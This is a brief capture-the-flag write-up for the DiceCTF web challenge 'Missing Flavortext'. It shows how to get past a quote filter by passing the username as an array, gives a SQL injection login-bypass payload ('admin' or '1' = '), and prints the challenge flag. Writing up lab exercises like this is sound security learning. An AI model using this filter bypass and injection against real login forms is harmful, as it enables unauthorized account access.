 **web/Missing Flavortext**  
We have https://missing-flavortext.dicec.tf and source code index.js  
Review source, in line 34, it have filter ', let bypass it by using multiple input
```
username[]
```
It's a simple SQL Injection
```
admin' or '1' = '
```
We got the flag
```
dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```